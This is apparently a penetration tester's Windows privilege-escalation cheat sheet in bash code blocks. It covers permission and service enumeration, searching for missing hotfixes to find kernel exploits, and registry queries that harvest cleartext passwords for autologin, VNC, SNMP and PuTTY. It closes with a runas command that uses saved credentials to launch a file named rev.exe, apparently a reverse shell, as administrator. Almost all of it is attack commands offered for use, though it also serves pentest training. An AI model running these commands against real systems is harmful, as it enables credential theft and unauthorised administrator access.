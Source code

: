 ```bash

# Set path
set PATH=%PATH%;C:\xampp\php

whoami /priv

dir/a -> Show hidden & unhidden files
dir /Q -> Show permissions
dir [filename] /s /p (s – for all directories and p – pause results)

# Insecure Folder Permission
C:\>cacls C:\bd

# Insecure File/Service Permission
C:\>cacls C:\bd\bd.exe

#Service Query
C:\>sc qc bd
```

#### Kernel exploits

```bash
# Look for hotfixes
systeminfo # Copy to txt file and run wes.py

sudo python wes.py sysinfo.txt -i "Elevation of Privilege"

wmic qfe list # Install date of hotfixes

wmic qfe get Caption,Description,HotFixID,InstalledOn

# Search for exploits
site:exploit-db.com windows XX XX
```

#### Cleartext passwords

```bash
# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

#Runas CMD
cmdkey /list

runas /savecred /user:admin
runas /user:DVR4\administrator "C:\Windows\System32\cmd.exe /c C:\Users\viewer\rev.exe"
```

